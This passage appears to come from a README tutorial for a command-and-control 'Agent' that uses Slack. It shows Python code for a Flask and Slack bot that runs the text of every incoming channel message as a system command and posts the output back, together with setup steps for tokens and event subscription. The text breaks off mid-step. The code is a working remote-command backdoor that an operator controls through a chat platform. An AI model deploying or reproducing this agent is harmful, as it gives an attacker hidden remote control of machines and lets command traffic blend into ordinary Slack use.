 After that, add the bot to the channel:

![slack](./images/slack-4.png)

### Agent
```python
import slack
from flask import Flask
from slackeventsapi import SlackEventAdapter
import subprocess
SLACK_TOKEN="REDACTED"
SIGNING_SECRET = "REDACTED"
def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output
app = Flask(__name__)
slack_event_adapter = SlackEventAdapter(SIGNING_SECRET, '/slack/events', app)
client = slack.WebClient(token=SLACK_TOKEN)
@slack_event_adapter.on('message')
def message(payload):
    event = payload.get('event', {})
    channel_id = event.get('channel')
    text = event.get('text')
    output = Exec(text).decode()
    client.chat_postMessage(channel=channel_id,text=output)
if __name__ == "__main__":
    app.run(debug=True,host="0.0.0.0")
```
Slack bot token adn signing secret must be put in the code in order for it to work.
An event handler is registered and the URL where the code is hosted must be added to event subscription:
